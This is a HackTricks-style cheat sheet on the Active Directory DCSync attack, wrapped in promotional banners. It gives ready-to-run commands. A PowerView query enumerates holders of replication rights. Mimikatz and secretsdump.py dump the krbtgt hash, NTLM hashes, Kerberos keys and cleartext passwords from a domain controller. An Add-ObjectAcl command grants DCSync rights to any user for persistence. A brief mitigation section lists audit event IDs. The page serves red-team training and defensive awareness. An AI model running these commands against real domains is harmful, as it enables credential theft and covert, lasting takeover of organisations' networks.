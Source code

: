 # DCSync

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## DCSync

The **DCSync** permission implies having these permissions over the domain itself: **DS-Replication-Get-Changes**, **Replicating Directory Changes All** and **Replicating Directory Changes In Filtered Set**.

**Important Notes about DCSync:**

* The **DCSync attack simulates the behavior of a Domain Controller and asks other Domain Controllers to replicate information** using the Directory Replication Service Remote Protocol (MS-DRSR). Because MS-DRSR is a valid and necessary function of Active Directory, it cannot be turned off or disabled.
* By default only **Domain Admins, Enterprise Admins, Administrators, and Domain Controllers** groups have the required privileges.
* If any account passwords are stored with reversible encryption, an option is available in Mimikatz to return the password in clear text

### Enumeration

Check who has these permissions using `powerview`:

```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```

### Exploit Locally

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### Exploit Remotely

```powershell
secretsdump.py -just-dc <user>:<password>@<ipaddress> -outputfile dcsync_hashes
[-just-dc-user <USERNAME>] #To get only of that user
[-pwd-last-set] #To see when each account's password was last changed
[-history] #To dump password history, may be helpful for offline password cracking
```

`-just-dc` generates 3 files:

* one with the **NTLM hashes**
* one with the the **Kerberos keys**
*   one with cleartext passwords from the NTDS for any accounts set with [**reversible encryption**](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption) enabled. You can get users with reversible encryption with

    ```powershell
    Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
    ```

### Persistence

If you are a domain admin, you can grant this permissions to any user with the help of `powerview`:

```powershell
Add-ObjectAcl -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName username -Rights DCSync -Verbose
```

Then, you can **check if the user was correctly assigned** the 3 privileges looking for them in the output of (you should be able to see the names of the privileges inside the "ObjectType" field):

```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{$_.IdentityReference -match "student114"}
```

### Mitigation

* Security Event ID 4662 (Audit Policy for object must be enabled) – An operation was performed on an object
* Security Event ID 5136 (Audit Policy for object must be enabled) – A directory service object was modified
* Security Event ID 4670 (Audit Policy for object must be enabled) – Permissions on an object were changed
* AD ACL Scanner - Create and compare create reports of ACLs. [https://github.com/canix1/ADACLScanner](https://github.com/canix1/ADACLScanner)

## References

* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)
* [https://yojimbosecurity.ninja/dcsync/](https://yojimbosecurity.ninja/dcsync/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}
